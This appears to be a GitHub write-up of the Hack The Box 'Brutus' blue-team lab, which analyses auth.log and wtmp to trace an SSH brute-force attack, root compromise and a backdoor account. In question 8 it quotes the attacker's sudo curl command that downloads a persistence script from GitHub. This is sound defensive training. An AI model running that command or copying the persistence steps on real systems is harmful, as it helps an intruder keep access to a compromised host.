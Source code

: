 # Simulating-a-Brute-Force-attack

This is a project made via **hackthebox.com** called “Brutus”, more specifically a project simulating a blue team scenario.

**Briefly introduction to the scenario:**

After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for bruteforce analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Skills Acquired

- **Unix log analysis**
- **WTMP analysis**
- **Brute-force activity detection**
- **Timeline creation**
- **Contextual analysis**
- **Post-exploitation analysis**

---

## Initial Analysis

We were provided with **Linux** authentication logs (`auth.log`) and the `WTMP` file.

- **`auth.log`**: Tracks authentication attempts, user switches, and `sudo` commands.
- **`WTMP`**: Logs system login and logout events. It is a binary file located at `/var/log/wtmp`, which can be viewed using the `last` command.

Both files are essential for access auditing and incident detection.

---

## Project Questions

### 1. What is the IP address used by the attacker for the brute-force attack?

To detect a brute-force attack in `auth.log`, we look for multiple occurrences of "Invalid user" and "Failed password" within a short period:

```sh
grep sshd auth.log
```
![Question 1-1](images/question%201-1.png)
![Question 1-2](images/question%201-2.png)

The attacker's IP address was identified as:

```
65.2.161.68
```

### 2. What is the compromised username?

The `auth.log` file shows that the attacker successfully authenticated as `root`:

![Question 2](images/question%202.png)

```
Accepted password for root from 65.2.161.68
```

Thus, the compromised user was:

```
root
```

### 3. What is the timestamp when the attacker manually logged into the server?

The first successful password authentication occurred at **06:32:44**, and the session was closed 5 minutes later:

![Question 3-1](images/question%203-1.png)

```
06:32:44
```

This was confirmed using the command:

```sh
utmpdump wtmp
```
![Question 3-2](images/question%203-2.png)

### 4. What is the attacker's session number?

Using the command:

```sh
grep session auth.log
```
![Question 4-1](images/question%204-1.png)

There is a line that could give us a clue of what we are looking for and that is the line with “system-logind”, so we can use this to make a proper search in the file:

![Question 4-2](images/question%204-2.png)

The attacker's session was identified as:

```
37
```

### 5. What user did the attacker create for persistence, and what privileges were granted?

Running:

```sh
grep useradd auth.log
grep usermod auth.log
```

![Question 5-1](images/question%205-1.png)
![Question 5-2](images/question%205-2.png)

It was detected that the attacker created the user:

```
cyberjunkie
```

Additionally, this user was granted **elevated privileges**.

### 6. What is the MITRE ATT&CK sub-technique ID used for persistence by creating an account?

![Question 6-1](images/question%206-1.png)
![Question 6-2](images/question%206-2.png)

According to the **MITRE ATT&CK** database, the sub-technique ID for persistence via local account creation is:

```
T1136.001
```

### 7. When did the attacker's first SSH session end?

Using:

```sh
grep systemd-logind auth.log
```
![Question 7](images/question%207.png)

It was identified that session **37** ended at:

```
06:37:24
```

### 8. What command did the attacker execute with elevated privileges to download a script?

Using:

```sh
grep sudo auth.log
```
![Question 8](images/question%208.png)

The following command was found:

```sh
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

---

## Conclusion

This analysis allowed us to identify the attacker's actions using authentication logs and auditing tools. Key data points such as the source IP, privilege escalation, and system persistence were extracted.
